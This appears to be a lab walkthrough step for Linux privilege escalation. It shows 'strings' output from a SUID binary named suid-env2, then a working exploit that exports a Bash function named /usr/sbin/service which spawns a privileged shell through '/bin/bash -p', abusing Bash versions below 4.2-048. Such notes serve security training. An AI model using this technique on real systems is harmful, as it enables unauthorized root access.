 1. The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.
2. In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
3. `strings suid-env2`
```
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```
4. Make a new function for the program and export it
```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
5. The run the program suid-env2
